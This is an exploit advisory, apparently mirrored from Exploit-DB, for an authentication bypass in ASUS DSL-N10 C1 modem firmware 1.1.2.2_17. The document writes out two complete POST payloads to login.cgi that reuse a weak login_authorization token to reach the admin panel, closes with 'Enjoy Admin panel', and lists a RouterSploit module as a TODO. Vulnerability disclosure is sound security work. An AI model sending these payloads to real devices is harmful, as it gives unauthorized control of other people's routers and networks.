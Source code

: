 # ASUS DSL N10 Authentication-Bypass

## Title: ASUS-DSL N10 1.1.2.2_17 - Authentication Bypass
Author: AmnBAN team  
Date: 2018-08-06  
Vendor Homepage: https://www.asus.com/Networking/DSLN10_C1_with_5dBi_antenna/  
Sofrware version: 1.1.2.2_17  
CVE: N/A
 
## 1. Description:
In ASUS-DSL N10 C1 modem Firmware Version 1.1.2.2_17 there is login_authorization 
parameter in post data, that use for authorization access to admin panel, 
the data of this parameter is not fully random and you can use old data 
or data of another device to access admin panel.
 
## 2. Proof of Concept:
Browse http://< Your Modem IP >/login.cgi
 
Send this post data:  
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=YWRtaW46MQ%3D%2D
 
Or this post data:  
group_id=&action_mode=&action_script=&action_wait=5&current_page=Main_Login.asp&next_page=%2Fcgi-bin%2FAdvanced_LAN_Content.asp&login_authorization=FWRtaW46MQ%3D5D

Enjoy Admin panel

## links:
https://www.exploit-db.com/exploits/45201/

## TODO:
Develop [RouterSploit](https://github.com/threat9/routersploit)  module for this vulnerability.
